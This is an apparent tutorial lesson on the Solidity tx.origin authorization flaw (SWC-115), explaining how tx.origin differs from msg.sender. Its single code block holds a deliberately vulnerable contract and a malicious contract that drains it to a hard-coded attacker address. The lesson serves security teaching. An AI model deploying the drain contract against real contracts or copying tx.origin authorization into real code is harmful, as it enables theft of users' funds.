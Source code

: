   TxOrigin Attack (SWC-115)
-------------------------

 In this lesson we are going to cover a `tx.origin` attack. The global variable `tx.origin` in Solidity always references the address of the original sender of the transaction, of the full call chain. [See the reference in the docs here.](https://solidity.readthedocs.io/en/latest/units-and-global-variables.html?highlight=tx.origin#block-and-transaction-properties){target=_blank} This is different than `msg.sender` in that `msg.sender` references the address of the sender of the current call.

    
 

 You should never use `tx.origin` in Solidity for authorization ([SWC-115](https://swcregistry.io/docs/SWC-115){target=_blank}). The following smart contract shows you why. It is susceptible to attack.


```
pragma solidity >0.5.0;  // Example Tx.Origin Authentication Attack     contract VulnerableContract {      address payable owner = msg.sender;             function withdraw(address payable \_recipient) public {          require(tx.origin == owner);          \_recipient.transfer(address(this).balance);      }             function getBalance() view public returns(uint) {          return address(this).balance;      }             function() external payable {}  }     contract MaliciousContract {      VulnerableContract vulnerableContract = VulnerableContract(0x08970FEd061E7747CD9a38d680A601510CB659FB);      address payable attackerAddress = 0xdD870fA1b7C4700F2BD7f44238821C26f7392148;             function() external payable {          vulnerableContract.withdraw(attackerAddress);      }  }
```
 In this contract, if the creator of the VulnerableContract is tricked into calling the MaliciousContract, the Malicious contract will be able to drain the VulnerableContract of all funds.

 Additional Resources:

 * [Solidity documentation on the security considerations of tx.origin](https://solidity.readthedocs.io/en/latest/security-considerations.html?#tx-origin){target=_blank}
* [The SWC Registry entry for Authorization through tx.origin](https://swcregistry.io/docs/SWC-115){target=_blank}

 